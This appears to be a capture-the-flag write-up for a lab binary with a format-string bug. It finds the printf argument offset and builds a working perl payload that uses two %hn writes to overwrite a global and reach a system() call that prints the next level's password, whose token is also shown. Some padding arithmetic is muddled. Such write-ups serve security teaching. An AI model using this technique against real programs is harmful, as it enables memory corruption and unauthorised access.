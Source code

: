 The process is very close to level3:

```c
number = 0;  // 0x8049810
{
...

fgets(arg, 512, stdin);

printf(arg)

if (number == 0x1025544) {
	// we win :)
	system("/bin/cat /home/user/level5/.pass");
}
...
```
> view the `Ressources/main.asm` and `source` files for the disasembly part

The goal is to write the value `0x1025544` in the address of `number` (`0x8049810`).

---

Let's determine the offset at which the first printf arg begin
```
> for i in {0..100}; do echo "Index: $i" && echo "****%$i\$x" | ./level4 ; done | grep -B1 2a2a
Index: 12
```

This mean that we can do
```bash
> echo "ABCD %12\$x" | ./level4
ABCD 44434241

# 41 A,  42 B,  43 C,  44 D

# ABCD 44 43 42 41
#      D  C  B  A
```

---

We can use the `%n` like in the level3 but `0x1025544` is a big number,
so we are gonna split it in half

`0x0102`, `0x5544` // splited in 16bits

We need to write number in ascending order

`0x5544 > 0x0102` so we write `0x0102` before

`0x0102`:
- 0x0102 - 8 = 250  // 8 is the two address length
- 256 % 16 = 0
- 256 - 250 = 6  // we append 6 at the end

`0x5544`:
- 0x5544 - 0x0102 = 21570
- 21584 % 16 = 0
- 21584 - 21570 = 14  // we append 14 at the end

---
exploit

```bash
> (perl -e 'print "\x12\x98\x04\x08" . "\x10\x98\x04\x08" . "%250x%12\$hn" . "%21570x%13\$hn" . "A"x(6+14)'; cat) | ./level4
bffff704AAAAAAAAAAAAAAAAAAAA
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

